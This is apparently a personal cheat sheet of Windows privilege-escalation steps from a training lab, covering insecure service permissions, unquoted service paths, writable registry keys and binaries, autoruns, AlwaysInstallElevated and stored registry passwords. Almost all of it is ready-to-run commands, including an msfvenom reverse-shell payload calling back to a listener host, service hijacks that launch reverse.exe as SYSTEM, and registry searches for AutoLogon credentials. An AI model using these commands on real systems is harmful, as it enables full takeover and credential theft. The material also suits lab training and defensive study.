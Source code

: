 
### Windows 

Check privileges:
`whoami /priv`

Service Exploits - Insecure Service Permissions.
Checks the "user" account's permissions on the  "daclsvc" service
1. `C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc` --> "user" account has the permission to change the service config (SERVICE_CHANGE_CONFIG)
2. `sc qc daclsvc`
3. `sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""`
4. `net start daclsvc`

Service Exploits - Unquoted Service Path
1. `sc qc unquotedsvc`
2.  `C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"`
3. `copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"`
4. `net start unquotedsvc`

Service Exploits - Weak Registry Permissions

1. `sc qc regsvc` --> notes that it runs with SYSTEM privileges (SERVICE_START_NAME)
2. `C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc` --> registry entry for regsvc service is writable by NT AUTHORITY\\INTERACTIVE group (essentially all logged-on users)
3. `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f` --> Overwrite the ImagePath registry key to point to the reverse.exe executable
4. `net start regsvc`

Service Exploits - Insecure service Executables

1. `sc qc filepermsvc` --> it runs with SYSTEM privileges (SERVICE_START_NAME)
2. `C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"` --> Service binary (BINARY_PATH_NAME) file is writable by everyone)
3. `copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y`
4. `net start filepermsvc`

Registry - Autoruns

1. `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
2. `C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"`
3. `copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y` --> Have to wait for an administrator to login

Registry - AlwaysInstallElevated

1. `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
2. `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` --> Both keys are set to 1 
3. On kali --> `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi`
4. `msiexec /quiet /qn /i C:\PrivEsc\reverse.msi`

Passwords - Registry

1. `reg query HKLM /f password /t REG_SZ /s`
2. `reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"` --> find admin AutoLogon credentials
3. On Kali --> `reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"`
